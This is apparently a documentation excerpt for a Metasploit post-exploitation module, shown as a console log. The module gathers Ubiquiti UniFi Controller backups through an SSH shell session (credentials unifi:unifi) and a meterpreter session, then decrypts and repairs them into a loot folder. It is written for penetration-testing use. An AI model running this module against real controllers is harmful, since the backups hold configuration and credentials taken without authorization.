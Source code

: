 ### Using a SHELL With Multiple Larger Backups on Ubiquiti Unifi Controller 5.10.23

An example of the output when not utilizing meterpreter (just a shell) to access the files.  The solution is to upgrade to meterpreter, which will
work successfully.

```
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                               Connection
  --  ----  ----                   -----------                                               ----------
  1         shell linux            SSH unifi:unifi (1.1.1.1:22)                              2.2.2.2:35125 -> 1.1.1.1:22 (1.1.1.1)
  2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 1.1.1.1        2.2.2.2:4433 -> 1.1.1.1:52584 (1.1.1.1)

msf5 post(multi/gather/ubiquiti_unifi_backup) > session -i 1
l[-] Unknown command: session.
msf5 post(multi/gather/ubiquiti_unifi_backup) > sessions -i 1
[*] Starting interaction with 1...

ls -lah /var/lib/unifi/backup/*.unf
-rw-r----- 1 unifi unifi  15K Mar 22 21:15 /var/lib/unifi/backup/5.10.19.unf
-rw-r----- 1 unifi unifi 3.3M May 10 13:59 /var/lib/unifi/backup/5.10.20.unf
-rw-r----- 1 unifi unifi 3.3M May 10 14:26 /var/lib/unifi/backup/5.10.23.unf
^Z
Background session 1? [y/N]  y
msf5 post(multi/gather/ubiquiti_unifi_backup) > set session 1
session => 1
msf5 post(multi/gather/ubiquiti_unifi_backup) > run

[!] SESSION may not be compatible with this module.
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_313804.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_129165.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_016198.zip.
[-] /var/lib/unifi/backup/5.10.20.unf read at 0 bytes.  Either file is empty or error reading.  If this is a shell, you need to upgrade to meterpreter!!!
[-] /var/lib/unifi/backup/5.10.23.unf read at 0 bytes.  Either file is empty or error reading.  If this is a shell, you need to upgrade to meterpreter!!!
[*] Post module execution completed
```

